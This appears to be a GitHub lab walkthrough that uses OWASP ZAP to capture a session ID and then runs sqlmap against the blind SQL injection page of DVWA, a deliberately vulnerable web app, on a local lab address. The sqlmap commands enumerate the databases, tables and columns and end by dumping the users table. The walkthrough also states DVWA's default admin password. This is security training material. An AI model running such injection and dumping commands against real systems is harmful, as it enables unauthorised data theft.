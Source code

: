 Open OWASP ZAP from the applications menu or by running zap in the terminal.
Set Up a New Session:

Go to the Quick Start tab.
Set the URL to explore to http://192.168.56.101/dvwa.
Click Launch Browser to open Firefox.
<img width="838" alt="image" src="https://github.com/Roland-P/Network-Security/assets/171095729/92587427-4b93-4472-a1be-0ce1221bf2c2">

Login to DVWA and Configure Settings:

In the launched browser, log in to DVWA with default credentials: admin / password.
Set DVWA security to medium by going to DVWA Security and selecting Medium, then clicking Submit.
Navigate to SQL Injection (Blind) under the Vulnerabilities section.

Initiate SQL Injection:

Under User ID, set the value to 1 and click Submit.

Capture the Session ID:

In OWASP ZAP, go to the History tab.
Find the last POST event.
In the Request tab, locate the PHPSESSID in the headers.

<img width="840" alt="image" src="https://github.com/Roland-P/Network-Security/assets/171095729/036fd65b-a0da-4b55-a77d-bc46542a91f7">

Identifying SQL Injection with SQLMap

Run SQLMap with Session ID:
```bash
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=abcdef1234567890" --dbs
```
Replace abcdef1234567890 with your actual session ID.

You can list all tables in the database:
```bash
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=abcdef1234567890" -D dvwa --tables
```
Dump Table Columns:
to list columns in the users table:
```bash

sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=abcdef1234567890" -D dvwa -T users --columns
```
Dump Table Data:
To extract the data from the users table:
```bash
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=abcdef1234567890" -D dvwa -T users --dump
```
<div>
<img width="585" alt="image" src="https://github.com/Roland-P/Network-Security/assets/171095729/ec382ee3-bb46-4772-90e6-0de60cd1029e">
